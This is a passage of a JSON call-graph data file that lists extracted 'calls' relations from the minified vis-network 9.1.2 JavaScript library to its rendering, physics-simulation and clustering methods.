"target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDistanceToEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "calculateLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "reconnectEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parseOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_addMissingEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_removeInvalidEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_formBarnesHutTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getForceContributions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_calculateForces"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getForceContributions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_calculateForces"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_splitBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateBranchMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_placeInRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_updateBranchMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_splitBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_calculateSpringForce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_calculateSpringForce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_calculateSpringForce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_calculateForces"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "initPhysics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updatePhysicsData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stabilize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_emitStabilized"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_evaluateStepQuality"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "revert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "adjustTimeStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "revert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_performStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "calculateComponentVelocity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "calculateComponentVelocity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_freezeNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_stabilizationBatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_startStabilizing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "physicsTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_finalizeStabilization"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_restoreFrozenNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_emitStabilized"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getHubSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getHubSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clusterByConnection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "joinCondition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_cluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 